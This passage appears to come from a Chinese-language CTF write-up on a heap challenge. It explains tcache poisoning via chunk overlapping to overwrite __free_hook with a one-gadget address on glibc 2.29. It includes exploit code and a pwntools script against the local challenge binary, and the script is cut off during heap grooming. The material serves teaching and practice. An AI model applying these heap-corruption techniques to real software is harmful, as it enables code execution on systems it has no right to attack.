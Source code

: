 然後進行 Tcache poisoning（這裏我被卡了一小會，主要原因是一直想着通過 double free 來實現，這種想法確實挺蠢的，需要注意，Tcache poisoning 的利用只需要控制 next 指針就可以了，double free 往往是實現控制的方法，而不是必須，在本題有更好的方法，就不需要 double free 了）。

```
add(0x28,p64(0) * 2) # 69<-56
add(0x28,p64(0) * 2) # 70<-57
add(0x28,p64(0) * 2) # 71<-58
delete(68)
add(0x60,p64(0) * 5 + p64(0x31) + p64(__free_hook_addr)) # 68
add(0x28,'pass') # 72
## alloc to __free_hook ##
magic_gadget = libc_base + 0x12be97
add(0x28,p64(magic_gadget)) # 73
```

因爲有 chunk overlapping，所以其實挺容易控制 next 指針的，比如通過上面這樣的方法就可以分配到 __free_hook 了。

到這裏就結束了堆上的利用，之後需要進行白名單繞過，具體方法這裏不再贅述，請見《沙箱逃逸》目錄下的《C 沙盒逃逸》

### exp

```python
#!/usr/bin/env python
# coding=utf-8
from pwn import *
context.terminal = ["tmux","splitw","-h"]
context.log_level = 'debug'

#sh = process("./note")
#libc = ELF("/glibc/2.29/64/lib/libc.so.6")
sh = process("./note-re")
libc = ELF("./libc-2.29.so")

def add(size,payload):
    sh.sendlineafter("Choice: ",'1')
    sh.sendlineafter("Size: ",str(size))
    sh.sendafter("Content: ",payload)

def delete(index):
    sh.sendlineafter("Choice: ",'2')
    sh.sendlineafter("Idx: ",str(index))

def show(index):
    sh.sendlineafter("Choice: ",'3')
    sh.sendlineafter("Idx: ",str(index))

for i in range(16):
    add(0x10,'fill')

for i in range(16):
    add(0x60,'fill')

for i in range(9):
    add(0x70,'fill')

for i in range(5):
    add(0xC0,'fill')

for i in range(2):
    add(0xE0,'fill')

add(0x170,'fill')
add(0x190,'fill')
# 49

add(0x2A50,'addralign') # 50
```